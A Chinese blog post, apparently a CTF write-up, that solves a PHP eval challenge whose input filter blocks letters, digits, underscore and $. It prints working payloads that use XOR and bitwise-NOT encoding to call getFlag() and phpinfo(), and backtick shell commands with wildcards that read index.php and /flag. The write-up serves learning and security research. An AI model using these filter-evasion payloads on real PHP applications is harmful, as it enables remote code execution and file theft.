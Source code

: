 ```yaml
---
title: CTF一道web题小结-无数字字母getFlag()
date: 2018-10-11 10:42:01
tags:
  - web
  - flag
categories: CTF
---
```


## 0x01 前言
最近遇到个CTF题目，分析后涨了波知识，题目如下：
```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```
分析代码，了解到我们需要满足两个条件：
1. 长度不能大于35
2. 不能存在数字字母_和$符号

## 0x02 无数字字母构造payload
首先，看到不能存在字母数字就想到了phithon师傅的文章里关于无字母数字webshell提到的3种方法提供了两种思路：
1. 利用位运算
2. 利用自增运算符
想到payload应该是code=getFlag(),于是开始构造getFlag()。
在网上找到一个payload如下：
```
$_="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$_();
```
分析：
```
采用异或运算
{ ^ %1c = g
{ ^ %1e = e
{ ^ %0f = t
{ ^ %3d = F
{ ^ %17 = l
{ ^ %1a = a
所以"{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c" = getFlag
$_=getFlag将_赋值为getFlag，最终得到getFlag()。
```
还有个payload为
```
?code=$_=~%98%9A%8B%B9%93%9E%98;$_();
```
直接取反getFlag再url编码。
其中_可以使用汉字代替，如
```
$啊=~%98%9A%8B%B9%93%9E%98;$啊();
```
当不过滤<strong>$</strong>符号时,可以这样操作，但是<strong>$</strong>符号过滤了，参考p牛的《无字母数字webshell之提高篇》中讲到PHP7前是允许使用($a)()来执行动态函数;
此时，测试使用phpinfo();payload如下：
```
(~%8F%97%8F%96%91%99%90)();
```
使用php5进行测试时如下：
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\php5测试phpinfo.PNG)

获取phpinfo信息失败。

使用php7进行测试时如下：
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\php7测试phpinfo.PNG)

获取phpinfo信息成功。

## 0x03 解题思路
利用通配符调用Linux系统命令 来查看flag。
在Linux系统中可以使用? * 等字符来正则匹配字母：

    *可以代替0个及以上任意字符
    ?可以代表1个任意字符
```
/???/??? => /bin/cat
```
用此来读取源码
```
$_=`/???/???%20/???/???/????/?????.???`;?><?=$_?>
"/bin/cat /var/www/html/index.php"
```
为保持长度小于35且不存在$_,则将$_带入后面一个表达式，同时使用*来匹配最后文件
```
?><?=`/???/???%20/???/???/????/*`?>
```
php使用短链接，其含义如下
```
<?php echo `/bin/cat /var/www/html/index.php`?>
```
读取到源码发现存在如下函数：
```
function getFlag(){
	$flag = file_get_contents('/flag');
	echo $flag;
}
```
最后直接读取flag文件。
```
?><?=`/???/???%20/????`;?>
```

## 0x04 其它思考
windows中将if(preg_match("/[A-Za-z0-9_$]+/",$code))过滤修改，去除对大写字母或小写的过滤，由于windows对大小写不敏感，可以在windows系统中尝试执行任意代码
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\windows执行任意代码.PNG)

不对if(preg_match("/[A-Za-z0-9_$]+/",$code))进行修改，将whoami进行取反再url编码：
```
~%88%97%90%9E%92%96
```
则失败。
![](2018-10-11-CTF一道web题小结-无数字字母getFlag\windows绕过失败.PNG)

去除[A-Za-z0-9_$]同样也无法执行代码，可见在windows中对命令进行位运算后会执行失败。

## 0x05 参考
[[红日安全]PHP-Audit-Labs题解之Day5-8](https://xz.aliyun.com/t/2597#toc-8)
[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284)
